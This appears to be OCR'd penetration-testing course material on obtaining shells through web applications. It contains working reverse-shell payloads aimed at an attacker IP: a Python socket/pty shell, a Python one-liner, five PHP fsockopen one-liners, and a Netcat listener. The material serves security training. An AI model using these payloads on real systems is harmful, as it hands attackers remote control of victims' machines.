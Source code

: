 #### 2.8.1. Web Technology

When learning about shells, especially those which are received via the _web surface_, we need to first understand which web technology we're working with in order to receive a shell. The web technology manages the shell execution on our behalf.

When we perform an action within a web application, we commonly send our input to the back end. The back end is also sometimes referred to as the _web stack_ or _solutions stack_.[1](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/shells-31434#fn-local_id_147-1) A web application may also commonly be comprised of a combination of web technologies.

We have many methods for determining a web service's technology, and which option to choose comes with time and experience. Our methods include examining scan output, install/Readme/license files, source code, copyright date, file extensions, and more. These are common locations we can check to discover what types of web technologies a web server is using. In some cases, we can also retrieve version numbers.

---------

#### 2.8.2. Choosing the Correct Shell

From a red-team perspective, identifying a target machine's web technologies and operating system is considered an extremely helpful capability. For example, if Bash is present, we might be able to leverage it to achieve a reverse shell.

Security professionals have developed a wide variety of methods for leveraging web technologies and binaries to achieve code execution and, ultimately, obtain a shell. Because each of the commands we execute is a binary or executable file on the target machine, we will need to carefully consider each possible binary as something that we may be able to leverage via web permissions to obtain control over the machine. What we mean by this, is that if we're executing system commands, it's always a good idea to know which of those binaries or commands we can execute to gain greater control of the machine.

In the next section, we will review how we can use these capabilities and ensure our payloads are properly encoded to exclude bad characters.

#### 2.8.3. Payloads

In computer security, a `Payload` refers to the portion of a message that is intended for a destination.[1](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/choosing-the-correct-shell-31072#fn-local_id_153-1) In computer viruses and worms, the payload is the malware portion that performs or executes a specific set of actions.

One such type of shell that we can use is known as a `reverse shell`. From a TCP perspective, we will receive our shell as `inbound` traffic. That is to say, that we will establish a `listener` or `handler` (often with Netcat or Meterpreter), which expects the shell's TCP connection from outside our attacking machine.

In most cases, to execute a reverse shell payload, we only need to change our IP address and the port we'll be listening on.

We can think of Netcat[2](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/choosing-the-correct-shell-31072#fn-local_id_153-2) as our "Swiss Army Knife" when performing penetration testing services. With Netcat, we can perform a wide variety of actions, most of which are beyond the scope of this course. However, two such techniques we will be utilizing with Netcat include file transfer and establishing a listener to receive an incoming shell.

For example, for each of the payloads below, we would first establish a Netcat listener on port 80, or any port of our choosing on our attacking machine, thus ensuring we're ready to receive an incoming TCP connection.

```bash
kali@kali:~$ nc -lvp 80            
listening on [any] 80 ...
```

#### Python
It's worthwhile to view these types of shell commands as _payloads_ regardless of the web technology (PHP, ASP, JSP, etc).
Now that we have established a Netcat listener for our attacking machine, let's cover an example payload with Python on our target machine, `http://execsandbox:80/`.

We will need to replace the IP address in our command below with the IP of our attacking machine.
Before pasting this payload for a reverse shell into the vulnerable web application, let's understand what's happening with this Python code.
import socket,subprocess,os; instructs Python to immediately `import` the modules needed to interact with the operating system and establish a valid TCP connection.

By using `s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);`, we declare a variable called `"s"` (short for TCP socket) and set the value as the main function of our imported socket module.

Our payload analysis reveals the following:

```bash
import socket
import subprocess
import os
import pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0)

os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

pty.spawn("/bin/bash")
```

The code above connects back to our chosen IP address and port number while spawning a valid `TTY shell` capable of execution.

A `TTY`,[3](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/payloads-31079#fn-local_id_153-3) stands for "TeleTYpewriter" and will permit us to perform standard input and output operations through our terminal.

After we receive a shell, it's a good habit for us to type the command tty and confirm whether we have a valid TTY (i.e. /dev/pts/0). It's important to realize that we want a valid TTY to make certain that when performing execution on a target machine (such as executing a payload), we will be able to do so without receiving errors.

Next, let's examine a different Python reverse shell payload.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

When executed on a target machine that has Python installed, the above one-liner will provide us a shell on port 80.

#### PHP

Let's now consider a victim's machine with a web server running PHP. We have a few options available for PHP code execution.

We'll cover multiple options in this case because PHP may have most (if not all) of the relevant functions disabled unless required by the application. It's wise to try each of these methods before moving on.

We can better understand the below series of one-liner payloads by running php -r '$sock=fsockopen("10.0.0.1",80); and simply examining what happens after execution. In the first example, the _exec()_[4](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/payloads-31079#fn-local_id_153-4) function executes a command via a shell and returns its output as a string.

Similarly, the payload using _system()_[5](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/payloads-31079#fn-local_id_153-5) also executes a command and displays its output. In the _passthru()_[6](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/payloads-31079#fn-local_id_153-6) example, we can execute an external program and display the output as _raw_. Much like the prior PHP execution functions, _shell_exec_[7](https://portal.offsec.com/courses/web-200-28380/learning/tools-30966/shells-31313/payloads-31079#fn-local_id_153-7) will execute a command via a shell and return the complete output as a string.

The final example payload is a bit more complex (pOpen); however its premise is the same as _exec_; we execute a command utilizing the function and receive the output of the command.

```php
php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```